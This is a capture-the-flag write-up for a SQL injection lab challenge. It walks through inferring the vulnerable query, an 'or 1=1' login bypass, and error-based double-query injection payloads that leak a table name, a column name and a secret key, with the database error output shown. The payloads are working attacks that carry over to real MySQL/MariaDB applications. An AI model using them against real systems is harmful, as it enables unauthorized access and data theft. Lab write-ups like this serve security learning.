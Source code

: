 # Challenge - 8

This challenge is based on double query injection and we have to use AND in this injection

## Initial Analysis

First we have to find out how the developer has given the query so we try giving id the value. We can break query using '`\`' Which will give an error

```ABAP
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''\')) LIMIT 0,1' at line 1
```

From this we can assume that the query is like:

```sql
select login_name,password from table_name where id = (('input')) 
```

We can check this using id=

```sql
0')) or 1=1 --+
```

which will give us a login id and password.

This challenge is similar to the previous one so we can use the same payload

### Solving

We can get the table name using: id=

```sql
1')) AND (select 1 from(select count(*),concat(0x3a,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); --+
```

It will give the error:

```ABAP
Duplicate entry ':e5nn7wr836:1' for key 'group_key'
```

From which we get table_name = **e5nn7wr836**

Now we can get the column name using: id=

```sql
1')) AND (select 1 from(select count(*),concat(0x3a,(select column_name from information_schema.columns where table_name='e5nn7wr836' limit 2,1),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); --+
```

Which will give the error:

```ABAP
Duplicate entry ':secret_I9PS:1' for key 'group_key'
```

From which we will get column_name = **secret_I9PS**

Now we can get the secret key using : id=

```sql
1')) AND (select 1 from(select count(*),concat(0x3a,(select secret_I9PS from e5nn7wr836),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); --+
```

Which will give the error:

```ABAP
Duplicate entry ':ZM8H3Va5gCasgjFgKcNxmHsy:0' for key 'group_key'
```

where the key is :  
**ZM8H3Va5gCasgjFgKcNxmHsy**
